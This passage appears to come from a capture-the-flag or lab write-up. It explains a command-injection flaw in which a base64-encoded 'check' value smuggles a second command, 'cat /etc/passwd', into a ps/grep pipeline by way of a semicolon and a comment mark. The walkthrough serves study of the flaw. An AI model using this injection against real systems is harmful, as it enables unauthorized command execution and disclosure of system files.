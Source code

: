 It looks like we have control over the argument to the first grep in that statement.  We could change it something like this:
```bash
bash -c ps waux | grep blahblahblah; <our command> # | grep -v grep
```
The semicolon breaks the pipeline and lets us run whatever command we want.  We will use a hash mark (#) to comment out the rest of the line just so that we have full control over execution.

Let's try it by grabbing the contents of ```/etc/passwd```.  To do that we need to create our command and base64 encode it:
```bash
# blahblahblah is just any string - we want something that would not normally be in the output so that we do not have to worry about extraneous information
# cat /etc/passwd is the command we want to run
# # comments out the rest of the line
blahblahblah; cat /etc/passwd #

echo "blahblahblah; cat /etc/passwd #" | base64
YmxhaGJsYWhibGFoOyBjYXQgL2V0Yy9wYXNzd2QgIwo=
```

When we substitute ```YmxhaGJsYWhibGFoOyBjYXQgL2V0Yy9wYXNzd2QgIwo=``` for the value of the check variable like we did above, we can see the contents of ```/etc/passwd```:
![/etc/passwd](screenshots/12_etc_passwd.png)
